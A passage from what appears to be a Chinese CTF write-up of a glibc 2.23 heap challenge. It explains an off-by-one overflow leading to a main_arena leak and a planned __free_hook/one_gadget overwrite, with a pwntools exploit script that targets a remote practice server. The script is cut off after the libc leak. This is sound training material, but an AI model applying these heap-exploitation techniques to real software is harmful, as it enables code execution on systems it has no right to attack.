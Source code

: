 这里插一条笔记：
> 如果使用free函数释放紧邻top chunk下面的大于最大fastbin容纳范围的chunk，当这个chunk的大小加上top chunk的大小大于FASTBIN_CONSOLIDATION_THRESHOLD（65536）时会触发malloc_consolidate()函数将所有的fastbin清空并归位到unsorted bins中。详情请见[源码](https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c)第4054~4076行。调试中无意发现，在此记录，与本题关系不大。

经过调试验证，证实上面的思路是正确的。我们成功通过off by one漏洞获取到一个chunk_info的读写权限。
![](4.png)
![](5.png)
那么，后面的思路也就清晰了：将后面一个chunk_info的可读写空间调大，获取到#4中的main_arena地址，进而计算libc基地址。然后直接将#3的可写地址改为__free_hook地址，写入one_gadget，再调用free函数即可getshell。
![](6.png)

```python
from pwn import *
from LibcSearcher import *

context(arch='amd64', log_level='debug')

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27833)
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
elf = ELF('./pwn')


def create(size, content):
    io.sendlineafter(b'Your choice :', b'1')
    io.sendlineafter(b'Size of Heap : ', str(size).encode())
    io.sendafter(b'Content of heap:', content)


def edit(index, content):
    io.sendlineafter(b'Your choice :', b'2')
    io.sendlineafter(b'Index :', str(index).encode())
    io.sendafter(b'Content of heap : ', content)


def show(index):
    io.sendlineafter(b'Your choice :', b'3')
    io.sendlineafter(b'Index :', str(index).encode())


def delete(index):
    io.sendlineafter(b'Your choice :', b'4')
    io.sendlineafter(b'Index :', str(index).encode())


create(0x48, b'colin')  # heaparray[0]
create(0x48, b'colin')  # heaparray[1]
create(0x48, b'colin')  # heaparray[2]
edit(0, cyclic(0x48) + b'\x91')
delete(1)
create(0x68, b'colin')  # heaparray[1]
edit(1, cyclic(0x40) + p64(0x51) + p64(0x21) + p64(0x100))  # change the readable size of heaparray[2]
create(0x88, b'colin')  # heaparray[3]
create(0x68, b'colin')  # heaparray[4]
delete(3)
payload = cyclic(0x70)
edit(2, payload)
show(2)
io.recvuntil(b'aabcaab')
main_arena = u64(io.recv(6) + b'\x00\x00') - 88
__malloc_hook = main_arena - 0x10
```